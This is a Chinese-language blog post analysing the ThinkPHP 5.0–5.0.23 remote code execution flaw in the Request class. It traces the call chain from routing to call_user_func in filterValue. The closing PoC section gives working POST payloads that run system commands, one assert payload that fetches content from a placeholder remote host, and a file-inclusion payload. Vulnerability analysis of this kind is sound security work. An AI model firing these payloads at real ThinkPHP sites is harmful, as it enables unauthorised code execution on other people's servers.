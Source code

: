 ```yaml
---
layout: post
title: ThinkPHP5 RCE
tags: [PHP, ThinkPHP5]
comment: false
---
```


主要成因为框架中的核心类 Request 中存在调用任意（其实不能算是任意）方法的点，通过构造可以做成 RCE。

这是 ThinkPHP 最近出的第二个影响比较大的 RCE 了，虽然对 ThinkPHP 不熟悉，不过这个洞的成因和利用还是比较有意思的，再加上已经好久没去分析 PHP 方面的漏洞了，写下分析当个记录了。全程是根据别人的分析静态跟代码加上在环境上测试完成的，没有做动态跟踪（懒得去弄了）。

## 0x00 影响版本
5.0 - 5.0.23

## 0x01 漏洞分析及利用构造
进入到漏洞关键点的执行流程：
think\App#run --> think\App#routeCheck --> think\Route#check --> think\Request#method

think\Request#method 具体代码如下
![](https://i.loli.net/2019/07/28/5d3d4ff3a809a84077.jpg)

在前面的执行流程中调用到 method 方法的时候是不带参数的，所以这里的形参 $method 的实际值为 false，另外 Config::get('var_method') 的值来自于 convention.php 默认为 _method。虽然这里会把字符串变成大写，但是在 PHP 中方法名大小写不敏感，因此在图中的红框处就能实现 Request 中任意方法的调用（当然了得参数类型符合）。

这里选择的类 Request 中的方法为其构造方法，具体代码如下
![](https://i.loli.net/2019/07/28/5d3d4ff434b5d96219.jpg)

选择这个方法主要是为了覆盖类 Request 中的成员变量的值，为后面的利用做准备。

再看 think\Request#param
![](https://i.loli.net/2019/07/28/5d3d4ff71b8a875794.jpg)

当 mergeParam 为空时会调用到 get 方法，其实这里在执行 $this->method(true) 一样会调用到下面说的 input 方法，这里就跟下 get。跟进 think\Request#get
![](https://i.loli.net/2019/07/28/5d3d4ff57604131870.jpg)

继续跟进 think\Request#input
![](https://i.loli.net/2019/07/28/5d3d4ffc25f3461402.jpg)

data 的值来自 Request 中的 get（数组），所以会调用到 array_walk_recursive 函数，而这个函数设置的 callback 函数为 filterValue。漏洞的利用点就在 filterValue 中，其代码如下
![](https://i.loli.net/2019/07/28/5d3d4ffb5779269155.jpg)

主要就是用 call_user_func 来做成 RCE，因此 filter 和 value 的值需要可控，顺着调用流程往回看和结合前面提到的在构造方法中做覆盖的方法就能知道怎么去控制这两个变量的值。结合前面提到的 value 的值其实就来自于 Request 类中的 get，再来看 filter，很明显能知道 filter 的值来自 getFilter 方法的执行结果，think\Request#getFilter
![](https://i.loli.net/2019/07/28/5d3d4ff8dbf5658046.jpg)

这个方法的代码逻辑比较简单的，要控制 filter 的值的话，就只需要在 POST 请求中传个 filter 的值就行了。到这里可以知道的了 PoC 中需要构造的请求如下

```
POST
_method=__construct&mergeParam&=filter=system&get[]=id
```

接下来只要找到办法调用 think\Request#param 就可以完成整个利用了。think\App#run 中存在如下代码
![](https://i.loli.net/2019/07/28/5d3d4ffc6e19e95420.jpg)

所以要是在开启了调试模式的情况下用前面的构造好的请求就可以完成利用了，但是 23 版本在默认情况下是没有开启调试模式的，再看下在没有开启调试模式的情况下如何利用。

回看 think\Route#check 中调用 think\Request#method 往后的代码
![](https://i.loli.net/2019/07/28/5d3d500ac520669420.jpg)

这里的 method 的值其实就来自于 Request 类中的 method，因此可控。往下就是根据 method 的值来获取路由规则，这里需要用到验证码类（只在完整版中有，核心版中没有）中的一个路由规则，规则如下
![](https://i.loli.net/2019/07/28/5d3d50075e4fa55273.jpg)

所以要是想获取到这个路由规则就得传参 s=captcha 来完成类的自动加载同时设置 method 的值为 get。这里获取这个路由规则的主要目的是为了完成漏洞的利用，往下跟就明白了。接下来的执行流程为 think\Route#checkRoute --> think\Route#checkRule --> think\Route#parseRule

parseRule 方法中的部分代码
![](https://i.loli.net/2019/07/28/5d3d500b7f0ef71486.jpg)

这里主要是根据路由规则的格式返回不同的结果，这里返回的结果中 type 为 method。结果返回赋值给 think\App 类中的 dispatch。往下跟进 think\App#exec
![](https://i.loli.net/2019/07/28/5d3d500eb615074412.jpg)

可以看到这里就能成功调用到了漏洞利用需要的 param 方法。

## 0x02 PoC
开启调试模式

```
POST /index.php
_method=__construct&filter=system&get[]=id
```

关闭调试模式

```
POST /index.php?s=captcha
_method=__construct&filter=system&get[]=id&method=get
```

另外一种控制 value 的方法

```
_method=__construct&filter=system&server[REQUEST_METHOD]=id&method=get
```

```
_method=__construct&filter=assert&server[HTTP_HOST]=file_get_contents('http://x.x.x.x/tp');
```

包含文件
```
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=/tmp/xx
```
## 0x03 参考
- 一份漏洞分析文档
- [启明星辰ADLab：ThinkPHP5核心类Request远程代码漏洞分析](https://mp.weixin.qq.com/s/DGWuSdB2DvJszom0C_dkoQ)

